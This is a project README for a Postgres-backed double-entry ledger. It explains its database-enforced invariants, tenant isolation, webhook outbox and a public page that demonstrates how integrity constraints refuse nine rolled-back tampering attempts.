<p align="center">
  <a href="https://obol-ledger.vercel.app/break">
    
  </a>
</p>

<p align="center">
  <a href="https://github.com/dnakhoa/obol-ledger/actions/workflows/ci.yml"></a>
  <a href="https://obol-ledger.vercel.app"></a>
  
  
  
  <a href="LICENSE"></a>
</p>

<p align="center">
  <a href="https://obol-ledger.vercel.app"><b>Live demo</b></a> ·
  <a href="https://obol-ledger.vercel.app/break"><b>Try to break it</b></a> ·
  <a href="docs/design-rationale.md">Design rationale</a> ·
  <a href="docs/architecture.md">Architecture</a> ·
  <a href="#documentation">20 ADRs</a>
</p>

A double-entry ledger with a typed HTTP API and a server-rendered dashboard.
Entries are balanced by construction, history is append-only, and the rules are
enforced by Postgres as well as by the application.

The [live demo](https://obol-ledger.vercel.app) is seeded with a quarter's
trading for a Vietnamese stone exporter — FIFO lots, export invoices in three
currencies, landed cost and VAT returns — kept in dong under Thông tư 200.

Built as a demonstration of production-shaped engineering: the interesting parts
are the invariants and where they live, not the CRUD.

Every claim below that could be false is checked by deleting the line that
makes it true and watching the suite fail. Remove the `.sort` that orders
posting inserts and Postgres reports `40P01 deadlock detected`. Remove
`SKIP LOCKED` and four webhook workers collapse to one. Connect as a role with
`BYPASSRLS` and the health probe says so before a request is served.

**Double-entry core** · **multi-currency** balanced in the functional currency ·
**FIFO inventory costing** · **landed cost** spread across the lots it arrived
with · **sales that know their margin** — invoice and cost of goods sold in one
entry, by product and by customer · **credit notes** that put returned goods back into the lot they left from · **write-offs** with a reason · stock
**reconciled** to the inventory accounts · **consumption-tax returns** that carry an unused credit forward as a
balance rather than a number on a form · receivables and payables aged by **due date and payment terms** ·
pending/posted/archived with three balances · reversals · idempotency · keyset
pagination · optimistic concurrency · **row-level tenant isolation** ·
**webhooks** through a transactional outbox · API key management · metadata
with a GIN index · CSV export · Prometheus metrics · generated OpenAPI ·
English, Tiếng Việt and 日本語 · ⌘K



## Try to break it

Saying the database enforces the rules is cheap. **[`/break`](https://obol-ledger.vercel.app/break)**
lets you check: nine attacks, written as raw SQL that goes around every
service, fired at the live demo's tables from a button. Postgres answers each
one in its own words — SQLSTATE, condition, constraint — and the page prints
the statement it refused.



| Attack                               | What stops it                                     | Postgres says                                 |
| ------------------------------------ | ------------------------------------------------- | --------------------------------------------- |
| Post an entry that is off by one     | deferred constraint trigger, checked at `COMMIT`  | `23514` … is unbalanced by 1 minor units      |
| Rewrite history                      | `BEFORE UPDATE` trigger on `postings`             | `23001` postings is append-only               |
| Delete an entry                      | `BEFORE DELETE` trigger on `transactions`         | `23001` transactions is append-only           |
| Spend money that is not there        | `CHECK` on the trigger-maintained balance         | `23514` `accounts_overdraft_check`            |
| Post in a currency the account lacks | composite foreign key on `(account_id, currency)` | `23503` `postings_account_currency_fk`        |
| Reverse the same entry twice         | partial unique index                              | `23505` `transactions_one_reversal_per_entry` |
| Back-date into a closed month        | `BEFORE INSERT` trigger on `transactions`         | `23001` period … is closed                    |
| Write into another company's books   | row-level security, `WITH CHECK`                  | `42501` new row violates row-level security   |
| Read another company's books         | row-level security, `FORCE`d                      | `(0 rows)`                                    |

It is safe to leave on a public demo because **every attack is one
transaction that ends in `ROLLBACK` whatever happens** — including one that
gets through, which is the case the page exists to detect. The balance rule
normally speaks only at `COMMIT`, which never comes, so the attack ends with
`SET CONSTRAINTS ALL IMMEDIATE`: Postgres runs the deferred check then,
exactly as `COMMIT` would. The SQL shown is the SQL executed; nothing in it
comes from the request. See [ADR 20](docs/adr/0020-attacks-on-the-live-demo.md).

[`tests/integration/attacks.test.ts`](tests/integration/attacks.test.ts) holds
the page to both promises: each attack is refused by the guard it names, not
by some other error that happens to fire first, and when a guard is removed on
purpose the page reports a breach — and still leaves every row and balance
exactly as it found them.

### Where each rule lives

Every rule is checked twice: once in the domain layer, to return an error a
person can act on, and once in Postgres, as the floor beneath it for every
writer the application never sees.



<details>
<summary>More screens</summary>

Every shot is the live deployment, not a mockup.

**The chart of accounts.** Grouped by class, with each group's own total and
its normal balance stated. Balances read the way an accountant expects —
positive means healthy, whichever side the account normally sits on — which is
one sign flip, applied in one function, never re-derived per view.



**The journal.** One `<tbody>` per entry, so an entry and its postings are a
single group for a screen reader as well as for the eye. Debits and credits get
their own columns above `sm` and collapse to one `Dr`/`Cr` column on a phone.



**Composing an entry.** The balance is checked as you type — this one balances,
so the badge says so and the button is live. That check has no authority; the
domain layer and a deferred Postgres constraint each check it again. A rejected
submit keeps every field exactly as typed and moves focus to the error.



**Webhooks.** Every delivery attempt with the subscriber's own status code and
response excerpt, the endpoint's circuit-breaker state, and a button that runs
the dispatcher on demand — the deployment's plan fires its cron once a day, and
a queue you cannot watch drain is not a demo.



**⌘K.** A combobox, not a menu: the input keeps focus the whole time and
describes the active option through `aria-activedescendant`, which is what
makes it usable by screen reader as well as by keyboard. Accounts, entries and
pages in one list, because the person typing does not know which of the three
their reference lives in.



**Try to break it, in light mode.** The terminal stays dark in both themes:
it is a psql session, and reads as one against either surface. Its colours are
its own rather than borrowed from the status palette, so a highlighted keyword
can never be mistaken for "the books balance".



**Light mode.** Not an inversion — the dark steps were chosen against the dark
surface, which is why neither theme has the washed-out greys an algorithmic
flip produces.



</details>

---

## Why a ledger

Most portfolio projects are CRUD, which makes them hard to judge — there are no
invariants, so there is no opportunity for a decision to be right or wrong. A
ledger has several that are provable:

- **Every entry balances.** The postings of a journal entry sum to zero. Always.
- **Retries are safe.** A client that times out can retry without posting twice.
- **History is immutable.** Mistakes are corrected with a reversing entry, never
  by editing the past.
- **Money is exact.** Not approximately exact — exact, for every currency,
  including the ones without two decimal places.

Each of those forces a real engineering decision, and each is enforced
somewhere you can point at.

## The interesting parts

### The database refuses to hold a corrupt ledger

Application-level validation is defeated by a `psql` session, a migration
backfill, or a second service. So the rule lives in Postgres too — a
`CONSTRAINT TRIGGER` declared `DEFERRABLE INITIALLY DEFERRED`, which asserts at
`COMMIT` that every touched entry has at least two postings and sums to zero.
Deferral is the trick: an immediate trigger fires after the first posting, when
nothing has ever balanced yet.

Alongside it: `postings` and `transactions` reject `UPDATE` and `DELETE`;
`accounts.balance_minor` is trigger-maintained so the cached balance cannot drift
from the postings behind it; and composite foreign keys on
`(account_id, currency)` make a cross-currency posting _unrepresentable_ rather
than merely rejected.

`tests/integration/schema.test.ts` proves all of it by bypassing the application
entirely and attacking the database directly.

### Money is authorised before it settles, and the ledger knows the difference

An entry is `pending`, `posted` or `archived`, and an account carries **three
balances**:

|             |                                                                |
| ----------- | -------------------------------------------------------------- |
| `posted`    | settled entries only — what is actually there                  |
| `pending`   | settled plus in-flight — what it becomes if everything lands   |
| `available` | settled minus in-flight **outflows** — what can still be spent |

The overdraft rule consults `available`, which is the point. Two concurrent
withdrawals against a balance of 1,000 both see 1,000 in a single-balance
ledger and both succeed; here the first one's reservation is already gone from
the second one's view.

Pending is tracked as two non-negative columns rather than one signed number,
so an unsettled _deposit_ can never fund an unsettled _withdrawal_ — money that
has not arrived paying for money that is leaving. Settling re-checks the
overdraft rule, because funds available at authorisation can be gone by
settlement.

See [ADR 8](docs/adr/0008-two-phase-entries.md).

### History is immutable, so mistakes are corrected not erased

`postings` and `transactions` reject `UPDATE` and `DELETE` at the table. That is
the right policy for a historical record and useless on its own — so a mistake
is corrected by posting a **reversing entry**: a mirror of the original with
every amount negated. Both stay on the record and the net effect becomes zero.

The link is recorded (`reverses_transaction_id`), so "is this entry still in
effect?" is answerable rather than inferred from signs. A **partial unique
index** allows one reversal per entry, which is where two concurrent reversal
requests are resolved — an application check cannot win that race.

The reversal is an ordinary entry, so it passes the same balance rule, the same
overdraft check and the same deferred constraint. Reversing a deposit that has
since been spent is _refused_, which is correct: the money has already moved on.

### Webhooks announced from inside the transaction

A ledger nobody can subscribe to is a database with a web page in front of it.
The hard part is not the HTTP request — it is that the announcement must agree
with the books, and the obvious implementation guarantees that sometimes it
will not:

```ts
await db.transaction(async (tx) => {
  await writeEntry(tx, input);
});
await notifySubscribers(entry); // ← everything after COMMIT is a gamble
```

Die between those lines and the entry is durable while the announcement never
happens — silently, on both ends, because a subscriber cannot notice the
absence of a message it was never told to expect.

So `enqueue` takes the **transaction handle**, not the database. The delivery
row and the ledger entry share a COMMIT: either both are durable or neither is.
A test asserts the half that matters — an entry the ledger _rejects_ announces
nothing — and it passes for a structural reason rather than a careful one.

That makes delivery at-least-once instead of at-most-once. A duplicate is
possible; a silent omission is not. Every event carries a stable id so the
receiver can deduplicate.

The worker that drains the queue **claims** rows with `FOR UPDATE SKIP LOCKED`
rather than reading them, so two workers — or one cron firing twice — take
disjoint sets. A concurrency test runs four dispatchers against real Postgres
and asserts every delivery went out exactly once.

Deliveries are signed to the [Standard Webhooks](https://www.standardwebhooks.com/)
specification, retried with exponential backoff and full jitter, and an
endpoint that fails persistently is disabled by a circuit breaker. Targets are
checked against the private network first, because a URL a caller chooses and
this server then fetches is an SSRF proxy until it isn't.

See [ADR 9](docs/adr/0009-webhooks.md).

### The statements a ledger exists to produce

A trial balance proves internal consistency; it is not an output. The API and
dashboard serve a **balance sheet** (Assets = Liabilities + Equity + retained
earnings) and an **income statement** over a period. Both are computed from the
same postings as everything else — there is no reporting store to fall out of
step — and `balanced` is computed rather than assumed, because a balance sheet
that does not balance means every figure on it is suspect.

### Tenant isolation the database enforces, and a probe that proves it

Every ledger table carries a `FORCE`d row-level security policy keyed on
`current_setting('app.current_org')`. `org_id = NULL` is never true, so a
connection that has not named a tenant sees an **empty database** — a forgotten
tenant scope returns nothing rather than everything.

The part worth reading is the failure mode. RLS does not apply to a role with
`BYPASSRLS`, and `FORCE` does not change that. Neon's default role has exactly
that attribute, so the first deploy ran with every policy inert — caught not by
an incident but by `/api/v1/health`, which asserts isolation is really in force
and returns 503 when it is not:

```json
{ "tenantIsolation": { "visibleWithoutTenant": 13, "privilegedRole": true, "enforced": false } }
```

Hence two connections: `DATABASE_URL` (owner, for migrations) and
`APP_DATABASE_URL` (`NOSUPERUSER NOBYPASSRLS`, no DDL rights, for the app).

### Money is never a float

`0.1 + 0.2 !== 0.3`, and a JSON number is a double — `12.10` is already
`12.099999999999999` before the server sees it. So amounts are `bigint` counts of
minor units end to end, branded so a raw number cannot be passed where money is
expected, with the decimal exponent coming from a currency registry (JPY has
zero, BHD has three). Across the wire they are exact decimal _strings_.

### Retries cannot double-post

`Idempotency-Key` claims its row _before_ any work happens, inside the same
transaction as the entry. A concurrent duplicate blocks on the index rather than
racing; a retry with the same body replays the stored response; the same key
with a _different_ body is a `409`. A rejected entry rolls its claim back with
it, so the key stays usable.

### Pagination that stays correct under writes

`OFFSET` walks and discards rows, and shifts every page when a row is inserted
mid-read. Pages here seek on `(occurredAt, id)` with a row-wise comparison that
Postgres answers straight from the matching index. `occurredAt` alone is not
unique; `id` alone orders by _recording_ time, which puts a back-dated invoice at
the top of today's journal.

### Tests that run the real schema, with no database to install

Integration tests run on **PGlite** — Postgres compiled to WebAssembly, embedded
in the test process. The migrations are applied verbatim, so the plpgsql triggers
and the deferred constraint are exercised as they will be in production.

```
